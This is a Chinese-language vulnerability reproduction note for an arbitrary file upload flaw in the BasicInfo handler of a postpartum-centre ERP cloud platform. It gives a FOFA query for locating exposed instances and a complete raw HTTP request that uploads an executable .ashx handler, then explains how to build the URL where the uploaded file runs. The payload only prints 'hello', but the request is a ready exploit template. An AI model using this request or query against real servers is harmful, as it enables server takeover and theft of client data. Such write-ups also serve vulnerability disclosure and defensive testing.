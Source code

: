 # 月子会所ERP管理云平台BasicInfo任意文件上传漏洞

# 一、漏洞简介
月子会ERP管理云平台是由武汉金同方科技有限公司研发团队结合行业月子中心相关企业需求开发的一套综合性管理软件，管控月子中心经营过程中各个环节。由于未对上传文件进行任何过滤，BasicInfo接口可上传任意文件，攻击者可利用该漏洞获取服务器控制权。

# 二、影响版本
+ 月子会所ERP管理云平台

# 三、资产测绘
+ fofa`product="妈妈宝盒-ERP"`
+ 登录页面

![1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab.png](./img/tko20JbtQ88aBvJ4/1693185375907-6915a126-7596-4142-b75c-f6a9c41760ab-831920.png)

# 四、漏洞复现
```plain
POST /Page/BasicInfo/ashx/UpLoadHandler.ashx HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_301
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 481
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.ashx"

<% @ webhandler language="C#" class="AverageHandler" %> 
using System; 
using System.Web; 

public class AverageHandler : IHttpHandler 
{ 
    public bool IsReusable 
    { 
        get {
             return true; 
            } 
        } 
        public void ProcessRequest(HttpContext ctx) 
        { 
            ctx.Response.Write("hello"); 
        } 
    }
--00content0boundary00--

```

![1695621128660-95318319-a4b9-4b06-b2d6-84be4562b7a7.png](./img/tko20JbtQ88aBvJ4/1695621128660-95318319-a4b9-4b06-b2d6-84be4562b7a7-050105.png)

根据响应拼接上传地址

```plain
/UploadBaseFolder/Contact/2309259440240.ashx
```

![1695621179771-1de55016-f429-4050-b796-b55a87d0f961.png](./img/tko20JbtQ88aBvJ4/1695621179771-1de55016-f429-4050-b796-b55a87d0f961-012351.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gfk4yt1xarmph0m3>